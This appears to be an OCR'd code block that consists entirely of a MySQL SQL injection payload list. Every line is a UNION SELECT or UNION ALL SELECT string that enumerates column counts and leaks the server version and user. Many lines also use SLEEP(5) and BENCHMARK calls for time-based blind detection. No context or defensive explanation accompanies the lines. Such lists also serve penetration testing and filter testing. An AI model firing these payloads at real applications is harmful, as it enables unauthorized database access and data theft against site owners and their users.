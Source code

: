 ```
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION SELECT @@VERSION,SLEEP(5),"'3
 UNION SELECT @@VERSION,SLEEP(5),"'3'"#
 UNION SELECT @@VERSION,SLEEP(5),USER(),4#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 UNION ALL SELECT USER()-- 
 UNION ALL SELECT SLEEP(5)-- 
 UNION ALL SELECT USER(),SLEEP(5)-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5)-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A'))-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
```